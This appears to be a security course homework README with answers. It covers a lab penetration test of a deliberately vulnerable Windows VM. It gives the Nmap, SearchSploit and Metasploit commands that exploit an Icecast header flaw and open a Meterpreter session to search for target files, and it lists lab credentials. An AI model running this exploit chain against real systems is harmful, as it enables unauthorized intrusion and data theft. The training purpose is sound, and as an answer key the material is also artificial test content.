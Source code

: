 # Week-17-Homework-Penetration-Testing-1

## Penetration Test Engagement

In this activity, you will play the role of an independent penetration tester hired by GoodCorp Inc. to perform security tests against their CEO’s workstation.
The CEO claims to have passwords that are long and complex and therefore unhackable.

You are tasked with gaining access to the CEO's computer and using a Meterpreter session to search for two files that contain the strings recipe and seceretfile.

The deliverable for this engagement will be in the form of a report labeled Report.docx.

## Setup

Before you begin, we'll need to start the Icecast server to emulate the CEO's computer.

Log onto the DVW10 machine (credentials IEUser:Passw0rd!) and wait for the Icecast application to popup.
Then click Start Server.

## Reminders

A penetration tester's job is not just to gain access and find a file. Pentesters need to find all vulnerabilities, and document and report them to the client. It's quite possible that the CEO's workstation has multiple vulnerabilities.

If a specific exploit doesn't work, that doesn't necessarily mean that the target service isn't vulnerable. It's possible that something could be wrong with the exploit script itself. Remember, not all exploit scripts are right for every situation.

## Scope

The scope of this engagement is limited to the CEO's workstation only. You are not permitted to scan any other IP addresses or exploit anything other than the CEO's IP address.

The CEO has a busy schedule and cannot have the computer offline for an extended period of time. Therefore, denial of service and brute force attacks are prohibited.

After you gain access to the CEO’s computer, you may read and access any file, but you cannot delete them. Nor are you allowed to make any configurations changes to the computer.

Since you've already been provided access to the network, OSINT won't be necessary.

## Lab Environment
For this week's homework, please use the following VM setup:

Attacking machine: Kali Linux root:toor

Target machine: DVW10 IEUser:Passw0rd!

NOTE: You will need to login to the DVW10 VM and start the icecast service prior to beginning this activity using the following procedure:

After logging into DVW10, type "icecast" in the Cortana search box and hit Enter.
The icecast application will launch.
Click on Start Server.
You are now ready to begin the activity.

## Deliverable

Once you complete this assignment, submit your findings in the following document:

Report.docx

## Instructions

You've been provided full access to the network and are getting ping responses from the CEO’s workstation.

**Perform a service and version scan using Nmap to determine which services are up and running:**

**Run the Nmap command that performs a service and version scan against the target.**

Answer: `nmap -sV 192.168.0.20`

**From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:**

**Run the SearchSploit commands to show available Icecast exploits.**

Answer: `searchsploit icecast`

Now that we know which exploits are available to us, let's start Metasploit:

**Run the command that starts Metasploit:**

Answer: `msfconsole`

Search for the Icecast module and load it for use.

**Run the command to search for the Icecast module:**

Answer: `search icecast`

Run the command to use the Icecast module:
Note: Instead of copying the entire path to the module, you can use the number in front of it.

Answer: `use exploit/windows/http/icecast_header`

Set the RHOST to the target machine.

**Run the command that sets the RHOST:**

Answer: `set RHOST 192.168.0.20`

Run the Icecast exploit.

**Run the command that runs the Icecast exploit.**

Answer: `exploit` (while in module)

**Run the command that performs a search for the secretfile.txt on the target.**

Answer: `search -f *secretfile.txt` 

This command will place a wildcard in front of 'secret' in 'secretfile.txt', meanning the search will look for anything that contains 'secretfile.txt' as well as any other text files that have anything before 'secretfile.txt'.

You should now have a Meterpreter session open.

**Run the command to performs a search for the recipe.txt on the target:**

Answer: `search -f *recipe.txt`

**Bonus: Run the command that exfiltrates the recipe*.txt file:**

Answer:

You can also use Meterpreter's local exploit suggester to find possible exploits.

Note: The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.

### Bonus
**A. Run a Meterpreter post script that enumerates all logged on users.**

Answer:

**B. Open a Meterpreter shell.**

Answer:

**C. Run the command that displays the target's computer system information:**

Answer:
